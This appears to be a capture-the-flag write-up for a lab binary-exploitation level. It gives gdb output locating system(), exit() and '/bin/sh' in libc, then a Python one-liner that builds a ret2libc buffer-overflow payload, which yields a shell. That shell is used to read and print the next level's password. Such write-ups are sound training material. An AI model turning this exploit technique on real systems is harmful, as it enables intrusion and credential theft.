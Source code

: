 # Level 04
*password : kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf*

## Analyze

```
scp -P 4242 level04@192.168.56.109:level04 binary/
```
```
(gdb) start
Temporary breakpoint 1 at 0x80486cd
Starting program: /home/users/level04/level04 

Temporary breakpoint 1, 0x080486cd in main ()
(gdb) info funct exit
...
0xf7ee45c4  _exit
...
(gdb) info funct system
...
0xf7e6aed0  system
...
(gdb) info proc map
...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

`system()` address : 0xf7e6aed0\
`exit()` address : 0xf7ee45c4\
`/bin/sh` address : 0xf7f897ec\

- offset = 156

```
$ python -c 'print "\x42" * 156 + "\xd0\xae\xe6\xf7" + "\xc4\x45\xee\xf7" + "\xec\x97\xf8\xf7"' > /tmp/level04
$ cat /tmp/level04 - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
